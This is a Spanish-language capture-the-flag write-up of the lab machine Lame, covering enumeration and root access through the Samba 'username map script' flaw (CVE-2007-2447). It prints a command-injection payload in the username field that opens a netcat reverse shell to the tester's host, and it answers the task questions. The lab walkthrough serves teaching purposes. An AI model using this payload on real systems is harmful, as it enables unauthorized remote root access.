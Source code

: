 ![](../img/cc2f35f31baac4bb3bc5e0f7ad6a9df5.png)

🧩 **Dificultad**: Easy (Linux)  
🎯 **Dirección IP**: `10.10.10.3`  
🛠️ **Modo**: Guided Mode

## 🔍 **Fase 1: Enumeración**

### ⚡ Escaneo Nmap

```bash
nmap -sS --top-ports 1000 10.10.10.3
```

![](../img/dbf2a0bf1f7bead95039136c6fa1e9c3.png)

Comprobamos puertos **abiertos** y vemos lo siguiente:

```bash
- 21/tcp → FTP
    
- 22/tcp → SSH
    
- 139 y 445/tcp → SMB (samba)
```

Luego usamos escaneo con scripts:

```bash
nmap -sS -sC -sV --top-ports 1000 10.10.10.3
```

![](../img/fd1a116218a82e2d6c4669bbfaaeb1d7.png)

Servicios identificados:

- 🎯 **FTP**: vsftpd 2.3.4 con login anónimo habilitado.
    
- 🔐 **SSH**: OpenSSH 4.7p1
    
- 📁 **SMB**: Samba 3.0.20 (en puertos 139 y 445)

### 📎 Enumeración FTP

Probamos el acceso anónimo al FTP:

```bash
ftp 10.10.10.3
Name: anonymous
Password: (enter)
```

![](../img/0d7407bf0e9cafd7922661937af96e4d.png)

Resultado: no hay contenido útil en el FTP.


### 📁 Enumeración SMB

Enumeramos los recursos compartidos SMB:

```bash
smbclient -L //10.10.10.3 -N
```

![](../img/04cdb05aaaf68d4f56169088be86a597.png)

Recursos mostrados:

- `print$`, `tmp`, `opt`, `IPC$`, `ADMIN$`

Nos conectamos al recurso `tmp`:


![](../img/fd15d75bab37ffcc0cbc110a22280bed.png)

Al listar su contenido:

```bash
dir
```

vemos archivos del sistema como `.X11-unix`, `vmware-root`, etc, pero no le haremos caso.


## 💣 **Fase 2: Explotación – CVE-2007-2447 (Samba)**

Samba 3.0.20 es vulnerable a ejecución de comandos a través del campo `username` si se usa `username map script` en su configuración.

📌 Verificado con searchsploit:

```bash
searchsploit samba 3.0.20
```

![](../img/b8804b2f4cc0b45ccb59773f670a2775.png)


Consultamos el exploit directamente:

```bash
searchsploit -x unix/remote/16320.rb
```

![](../img/389afa6d93c9100fc1ca8b0718b509fb.png)

En el código vemos que el exploit inyecta el payload en la variable `username`, usando una línea como:

![](../img/b1dc0f80a9500b495f06488cb1181684.png)

```bash
username = "/=`nohup " + payload.encoded + "`"
```

Esto confirma que podemos pasar comandos directamente por el campo `username`.

### ✅ PoC: Reverse Shell directamente tras login

Tras comprobar que se puede inyectar comandos por el campo `username`, nos conectamos directamente al recurso `tmp`:

```bash
smbclient //10.10.10.3/tmp -N
```

Y luego ejecutamos el siguiente payload desde la consola interactiva de `smbclient` :

![](../img/314810ec21c24265d1b535c768699279.png)


```bash
logon "/=`nohup nc -e /bin/sh 10.10.16.84 4444`"
```

![](../img/354866c9b5d6419e66d602c9c6298152.png)

Se observa que el reverse shell **sí se conecta** correctamente:

![](../img/5689211c325ed2aeb244a93fdb9a8ac9%201.png)

![](../img/0dcc249faa5c400a0924f718b8b0d8c4.png)

Esto indica que, aunque el comando `logon` parece fallar por timeout, **la conexión inversa llega** y se puede trabajar con la shell abierta.

### ✅ Shell funcional y obtención de flags

Una vez obtenida la shell de root:

![](../img/e052024d4baa37ccd06b6173fd2ff14a.png)

## 📚 Conclusiones

- El acceso FTP anónimo no ofrece nada útil.
    
- El share `tmp` en SMB permite ejecutar comandos gracias a una vulnerabilidad en `username map script`.
    
- Basta con entrar anónimamente y usar `logon "payload"` desde dentro del cliente interactivo.
    
- Aunque el payload con `nc -e` muestre `NT_STATUS_IO_TIMEOUT`, **la conexión puede ser válida** si se observa con `nc -lvnp`.
    
- Acceso root sin autenticación → se capturan ambas flags directamente.


## 📁 Recursos y exploits

- ExploitDB → [16320.rb](https://www.exploit-db.com/exploits/16320)
    
- Blog técnico → [amriunix CVE-2007-2447](https://amriunix.com/post/cve-2007-2447-samba-usermap-script/)
    
- Shell cheat sheet → [Pentestmonkey Reverse Shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


-----------
## 🧱 Task adicional:

*Con una shell como root, podemos investigar por qué falló el exploit de VSFTPD. Nuestro escaneo inicial con `nmap` mostró cuatro puertos TCP abiertos. Pero si ejecutamos `netstat -tlnp` en la máquina víctima, veremos que hay **muchos más puertos escuchando**, incluso en `0.0.0.0` y en la IP externa de la máquina, por lo que **deberían ser accesibles desde fuera**.  

*¿Qué debe de estar bloqueando la conexión a estos puertos?*

![](../img/fb1b7cb824aac09c31fcc1398de50c0f.png)

## ¿Por qué falla el exploit de vsftpd?

Aunque vsftpd 2.3.4 es una versión con backdoor conocido, **el exploit no funciona en esta máquina**. La razón puede deberse a que hay otros puertos abiertos **localmente**, pero no accesibles desde el exterior.

### ✅ Respuesta correcta: `firewall`

Aunque hay puertos en escucha en la máquina víctima, **desde fuera** sólo vemos 4 porque el **firewall (como `iptables`) los está filtrando**. Es decir: están técnicamente abiertos, pero no accesibles remotamente.

Este firewall local puede estar limitando las conexiones entrantes desde el exterior, impidiendo la explotación de ciertos servicios como vsftpd.


## 🧪 Task 10: ¿Qué puerto se abre al activar el backdoor de VSFTPD?

Cuando se activa el backdoor de **vsftpd 2.3.4**, comienza a escuchar en el puerto:

![](../img/3397092759f4b9b36e85ae73304f598b.png)

Como nos da la info en el link de la web de la tarea anterior: 

https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd

![](../img/659f498d76f31e9d9ba6dc3316d5502c.png)